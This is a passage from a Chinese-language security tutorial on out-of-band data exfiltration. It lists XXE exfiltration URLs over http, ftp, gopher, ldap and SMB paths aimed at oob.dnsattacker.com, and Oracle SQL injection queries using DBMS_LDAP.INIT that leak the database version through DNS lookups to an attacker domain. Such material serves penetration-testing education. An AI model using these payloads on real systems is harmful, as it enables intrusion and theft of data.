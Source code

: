  
**注意**  
：出于演示目的，我们将使用 CVE-2018-0878：Windows Remote Assistance XXE 漏洞  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/hoiaQy7WhTCP7m4A0lmnsdHx4wBhdvFpo2tuy61EDjVEx5oHTcicJS1DiaQI4NuQ1XxLUg58exxe1RicreZviamPGgQ/640?wx_fmt=png&from=appmsg "")  
  
**类似地，其他可能的载荷来窃取数据**  

```
http://oob.dnsattacker.com:port/%data
ftp://oob.dnsattacker.com:port/%data
gopher://oob.dnsattacker.com:port/%data%
ldap://oob.dnsattacker.com:port
\\oob.dnsattacker.com\\C$\\1.txt
```

## SQL Injection (SQL 注入)  
  
**注意：**  
所有数据库服务器安装都在 Windows 上。有关详细的 SQL 注入速查表，请参考这里和这里  
### 检测  
#### DNS  
  
**攻击者**  
：使用 Wireshark/tcpdump 监听端口 53 来观察响应。  

```
sudo tcpdump -n port 53
```

##### ORACLE  
###### 检测  
  
**受害者**  

```
SELECT DBMS_LDAP.INIT(('oob.dnsattacker.com',80) FROM DUAL;
```

  
  
![](https://mmbiz.qpic.cn/mmbiz_png/hoiaQy7WhTCP7m4A0lmnsdHx4wBhdvFpoSWnJRdzctSTt2RibNEMwO9k89WleiaGswPbGmmfdJebXP7ReZgnnWLtg/640?wx_fmt=png&from=appmsg "")  
  
**注意：**  
为了使用这种技术，需要更高的权限来调用上述函数。  
###### 漏洞利用/数据窃取  
  
**受害者**  

```
SELECT DBMS_LDAP.INIT((SELECT version FROM v$instance)||'.attacker.com',80) FROM dual;    /* 提取 Oracle 数据库版本 */
```

  
  
![](https://mmbiz.qpic.cn/mmbiz_png/hoiaQy7WhTCP7m4A0lmnsdHx4wBhdvFpojSIWfpVpS4ZVvxNibINdEYBxeH1SDjlwo5Dt8PiczpGR97cnIib9vtO6Q/640?wx_fmt=png&from=appmsg "")  
  